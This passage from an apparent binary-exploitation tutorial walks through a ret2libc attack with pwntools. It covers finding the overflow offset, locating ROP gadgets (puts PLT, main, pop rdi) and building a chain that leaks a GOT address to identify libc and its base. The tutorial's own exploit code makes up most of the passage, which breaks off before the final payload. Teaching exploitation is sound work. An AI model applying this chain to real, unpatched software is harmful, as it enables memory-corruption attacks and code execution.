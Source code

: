 **Execute** `python template.py` a GDB console will be opened with the program being crashed. Inside that **GDB console** execute `x/wx $rsp` to get the **bytes** that were going to overwrite the RIP. Finally get the **offset** using a **python** console:

```python
from pwn import *
cyclic_find(0x6161616b)
```

![](../../.gitbook/assets/image%20%28188%29.png)

After finding the offset \(in this case 40\) change the OFFSET variable inside the template using that value.  
`OFFSET = "A" * 40`

## 2- Finding Gadgets

Now we need to find ROP gadgets inside the binary. This ROP gadgets will be useful to call `puts`to find the **libc** being used, and later to **launch the final exploit**.

```python
PUTS_PLT = elf.plt['puts'] #PUTS_PLT = elf.symbols["puts"] # This is also valid to call puts
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
```

The `PUTS_PLT` is needed to call the **function puts**.  
The `MAIN_PLT` is needed to call the **main function** again after one interaction to **exploit** the overflow **again** \(infinite rounds of exploitation\).It is used at the end of each ROP.  
The **POP\_RDI** is needed to **pass** a **parameter** to the called function.

In this step you don't need to execute anything as everything will be found by pwntools during the execution.

## 3- Finding LIBC library

Now is time to find which version of the **libc** library is being used. To do so we are going to **leak** the **address** in memory of the **function** `puts`and then we are going to **search** in which **library version** the puts version is in that address.

```python
def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + " GOT @ " + hex(FUNC_GOT))
    # Create rop chain
    rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)

    #Send our rop-chain payload
    #p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
    print(p.clean()) # clean socket buffer (read all and print)
    p.sendline(rop1)

    #Parse leaked address
    recieved = p.recvline().strip()
    leak = u64(recieved.ljust(8, "\x00"))
    log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
    #If not libc yet, stop here
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
        log.info("libc base @ %s" % hex(libc.address))

```